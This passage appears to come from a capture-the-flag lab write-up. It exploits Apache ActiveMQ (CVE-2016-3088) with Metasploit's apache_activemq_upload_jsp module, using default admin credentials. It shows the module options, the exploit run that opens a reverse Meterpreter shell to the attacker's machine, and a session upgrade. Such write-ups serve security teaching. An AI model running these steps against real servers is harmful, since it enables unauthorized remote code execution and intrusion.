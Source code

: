 ```
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  AutoCleanup    true             no        Remove web shells after callback is received
  BasicAuthPass  admin            yes       The password for the specified username
  BasicAuthUser  admin            yes       The username to authenticate as
  JSP                             no        JSP name to use, excluding the .jsp extension (default: rando
                                            m)
  Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-
                                            framework/wiki/Using-Metasploit
  RPORT          8161             yes       The target port (TCP)
  SSL            false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                           no        HTTP server virtual host

Payload information:

Description:
  The Fileserver web application in Apache ActiveMQ 5.x before 5.14.0 
  allows remote attackers to upload and execute arbitrary files via an 
  HTTP PUT followed by an HTTP MOVE request.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2016-3088
  http://activemq.apache.org/security-advisories.data/CVE-2016-3088-announcement.txt
```

```
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOSTS broker.thm
RHOSTS => broker.thm
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LPORT 443
LPORT => 443
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LHOST tun0
msf6 exploit(multi/http/apache_activemq_upload_jsp) > exploit

[*] Started reverse TCP handler on 10.9.0.253:443 
[*] Uploading http://10.10.179.241:8161//opt/apache-activemq-5.9.0/webapps/api//ikNQqrmLia.jar
[*] Uploading http://10.10.179.241:8161//opt/apache-activemq-5.9.0/webapps/api//ikNQqrmLia.jsp
[*] Sending stage (58851 bytes) to 10.10.179.241
[+] Deleted /opt/apache-activemq-5.9.0/webapps/api//ikNQqrmLia.jar
[+] Deleted /opt/apache-activemq-5.9.0/webapps/api//ikNQqrmLia.jsp
[*] Meterpreter session 1 opened (10.9.0.253:443 -> 10.10.179.241:37626) at 2023-01-01 21:45:28 -0500

meterpreter > 
```

Nice! We got a shell!

**Upgrade meterpreter shell:**
```
msf6 exploit(multi/http/apache_activemq_upload_jsp) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_kill
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.0.253:4433 
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/apache_activemq_upload_jsp) > 
[*] Sending stage (1017704 bytes) to 10.10.179.241
```